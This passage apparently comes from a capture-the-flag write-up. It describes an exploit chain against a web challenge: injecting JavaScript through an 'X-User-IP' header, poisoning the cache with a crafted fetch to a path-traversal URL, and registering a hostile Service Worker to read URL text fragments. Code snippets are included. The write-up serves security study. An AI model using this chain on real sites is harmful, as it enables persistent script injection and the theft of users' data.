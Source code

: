 Since the `X-User-IP` header is directly concatenated into the JavaScript response, injecting a string into the `X-User-IP` header allows arbitrary JavaScript execution.
Fortunately, after checking the Nginx configuration file, I confirmed that the `X-User-IP` header can be added by an attacker through header injection.

Since we can already have the Bot execute arbitrary JavaScript, we can craft a request to poison the cache with malicious JavaScript.
By executing the following JavaScript, we can create a response that caches unintended JavaScript code:
```js
fetch('/view_protected_note.js?id=../../xx-xxxx-xxxx-xxxx-/%E2%80%A5/api/track', {
  headers: {'X-User-IP':'<injection here>'}}
);
```

---

## Register a Malicious ServiceWorker Via Browser Cache
The reason for doing this even when XSS is already available is to leverage Service Workers.  
Since the injected JavaScript is served from the application's origin, it can be registered as a Service Worker.

While JavaScript running on the page was unable to access the text fragment, further testing revealed that Service Workers can indeed retrieve it.
In both Chrome and Firefox, the following `fetch` event handler can be used to capture the full URL, including the text fragment:
```js
// Service Worker
self.addEventListener("fetch", (event) => {
   console.log(event.request.url);
});
```

FYI, testing confirmed that in Chrome, `ServiceWorker.postMessage()` can also be used to obtain the text fragment:

```js
// Service Worker
addEventListener("message", (event) => {
  console.log(event.source.url);
});
```

Next, we need to ensure that the response from /api/track does not cause syntax errors. The response is structured as follows:
```js
// /nextjs-app/api/track.js
\`$(document).ready(function() {
    const userDetails = {
        ip: "${userIp}",
        type: "client",
        timestamp: new Date().toISOString(),
        ipDetails: {}
    };
    window.ipAnalytics = {
        track: function() {
            return {
                ip: userDetails.ip,
                timestamp: new Date().toISOString(),
                type: userDetails.type,
                ipDetails: userDetails.ipDetails
            };
        }
    };
});\`
```
